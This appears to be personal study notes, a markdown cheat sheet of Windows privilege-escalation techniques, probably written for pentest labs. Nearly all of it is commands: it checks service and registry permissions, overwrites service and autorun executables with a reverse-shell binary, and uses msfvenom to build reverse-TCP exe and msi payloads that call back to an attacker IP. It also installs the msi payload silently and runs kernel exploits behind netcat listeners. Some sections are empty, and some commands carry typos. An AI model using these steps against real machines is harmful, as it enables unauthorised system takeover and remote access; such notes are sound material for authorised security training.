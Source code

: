 
 ### Insecure service Executable i.e Writable Executable
 1. `> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" The c:\Program Files should be changed to my vul path. check we can write on the path
 2. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>`  check we can stop and start service
 3. `copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp` create a backup of original service
 4. `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"` copy reverse shell to vul path
 5.  start a netcat listener  and `net start <SERVICENAME>`
 
 ### Writable Service Executable
  0.`Invoke-AllChecks`\
  1.`msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f exe >service.exe`  (payload name has to be same as writable service) 


 ### DLL Hijacking 
 1.   `.\winPeas.exe quiet servicesinfo` Check write permissions in Path folder(DLL hijacking)
 2.  `.\accesschk.exe /accepteula -uvqc user <SERVICENAME>` ***check non microsoft service that has Stop and Start access***
 3. ` sc qc <SERVICENAME>` confirm manually that it runs with local system
 4. In process

 ### Registry (Exploit the AUTO RUN in registery)
 1.  `.\winPEASany.exe quiet applicationsinfo` or manually `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
 2.  If done manually use accescheck to verfiy every file location. E.G.`\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
 3.  `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"` copy revershell
 4.  start a netcat listener and login as admin and restart

 
 ### AlwaysInstallElevate
 check if both values are 1.\
 0. `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 1. `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\ 
 2. or ` reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated and 
 3. `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
 4. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f msi >reverse.msi`  (create a payload) 
 5. Transfer payload to Temp and execute
 6. `msiexec /quiet  /qn /i "C:\Windows\Temp\reverse.msi"`


 ### SeImpersonatePrivilege 
 
 
 ### Kernal exploits (last resort)
 0. `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
 1. `>driverquery /v` and searchsploit
 2. Extract `systeminfo` and save it to systeminfo.txt in kali (should be in same directory)
 3. `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more`
 4. cross reference with the site https://github.com/SecWiki/windows-kernel-exploits to see if we have binaries
 5. Move the binary to window victim and run it with reverseshell to get root. 
 6. open netcat listener 
 7.  `.\x64.exe C:\PrivEsc\reverse.exe`
 